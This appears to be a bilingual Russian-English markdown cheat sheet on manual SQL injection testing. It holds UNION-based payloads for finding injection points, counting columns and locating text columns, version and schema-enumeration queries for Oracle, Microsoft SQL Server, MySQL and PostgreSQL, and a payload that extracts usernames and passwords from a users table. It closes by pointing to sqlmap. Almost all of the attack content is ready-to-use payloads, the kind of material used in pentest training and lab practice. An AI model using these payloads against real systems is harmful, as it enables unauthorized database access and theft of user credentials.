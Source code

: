 # Ручное тестирование

### Определение точки ввода
1. Поиск ошибки через указание ошибочного запроса пользователя
```SQL
'
" 
--
```

2. Determining the number of columns required
```SQL
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

3. Finding columns with a useful data type
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

### Извлечение информации через уязвимый параметр

1. Database version
```SQL
Oracle: 	SELECT banner FROM v$version
            SELECT version FROM v$instance
            SELECT * FROM v$version
Microsoft:	SELECT @@version
MySQL:  	SELECT @@version
PostgreSQL:	SELECT version()
```

2. Retrieving multiple values within a single column
```SQL
' UNION SELECT NULL,username || '~' || password FROM users,NULL--

Oracle: 	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL:  	'foo' 'bar' [Note the space between the two strings]
            CONCAT('foo','bar')
```

3. Database contents / Find TABLE NAME
```SQL
#Oracle	
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

#Microsoft
table_name||FROM+information_schema.tables
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

# PostgreSQL из первого параметра. Второй используется как завершение логики запроса
UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- # Извлекаем название ТАБЛИЦ
UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_tecdsk'-- # Извлекаем название строк
UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef-- # Извлекаем содержимое строк

# MySQL	
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

# Автоматизация тестирования
```
sqlmap

```